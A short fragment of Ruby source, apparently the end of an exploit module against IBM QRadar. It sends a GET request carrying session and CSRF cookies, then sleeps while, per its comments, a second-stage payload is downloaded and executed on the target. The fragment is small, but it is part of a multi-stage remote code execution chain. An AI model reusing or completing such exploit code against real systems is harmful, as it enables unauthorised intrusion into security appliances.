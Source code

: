 ```rb
        'method'    => 'GET',
        'cookie'    => "SEC=#{@sec_cookie}; QRadarCSRF=#{@csrf_cookie};",
      })
  # now we just sit back and wait for step 2 payload to be downloaded and executed
  # ... and then step 3 to complete. Let's give it a little more than a minute.
  sleep 80
  end
end
```
